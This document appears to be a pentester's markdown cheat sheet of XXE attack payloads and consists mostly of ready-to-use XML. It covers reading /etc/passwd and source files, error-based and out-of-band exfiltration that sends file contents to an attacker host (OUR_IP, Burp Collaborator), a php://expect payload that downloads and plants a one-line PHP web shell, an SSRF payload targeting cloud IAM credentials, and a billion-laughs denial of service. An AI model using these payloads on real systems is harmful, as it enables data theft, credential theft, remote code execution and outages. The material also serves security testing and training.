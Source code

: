 
# XXE Attacks 


## Reading Sensitive Files

### using DTD
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

### using Xinclude
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

**Tip:** In certain Java web applications, we may also be able to specify a directory instead of a file, and we will get a directory listing instead, which can be useful for locating sensitive files.


## Read file contains some of XML's special characters

#### PHP wrapper 

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

#### CDATA Mehtod


```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```
- this will not work, since XML prevents joining internal and external entities, so we will have to find a better way to do so.
- To bypass this limitation, we can utilize XML Parameter Entities, a special type of entity that starts with a % character and can only be used within the DTD.
- What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined,as follows:


- payload 
```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
<email>&joined;</email> 
```
- xxx.dtd
```xml
<!ENTITY joined "%begin;%file;%end;">
```


## Blind XXE 

#### Error Based XXE



##### using external dtd file 
- payload 
 ```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```
- xxx.dtd
```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
#### Exploiting blind XXE (error based) by repurposing a local DTD [source](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/) and [portswigger](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-by-repurposing-a-local-dtd)

 invoking a DTD file that happens to exist on the local filesystem and repurposing it to redefine an existing entity in a way that triggers a parsing error containing sensitive data. 
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
You can test whether this file is present by submitting the following XXE payload, which will cause an error if the file is missing: 
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```


#### Out-of-band Data Exfiltration

- payload 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```
- xxe.dtd
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```
OR 

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```

## RCE 

###  look for `ssh` keys

### PHP Wrappers
#### php://filter 
- https://github.com/synacktiv/php_filter_chain_generator
#### php://expect 
- expect://id  (output may break xml syntax  , we may have not access to the output)  

-  payload   (best practice )
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
- shell.php file 
```php
<?php system($_REQUEST["cmd"]);?>
```

- out of band
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=expect://cat$IFS/*.txt">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://IP:PORT/?c=%file;'>">
```



## SSRF 
 - get API metadata 
```xml
<!DOCTYPE test [ 
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> 
]>
```



## DOS Attack
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```

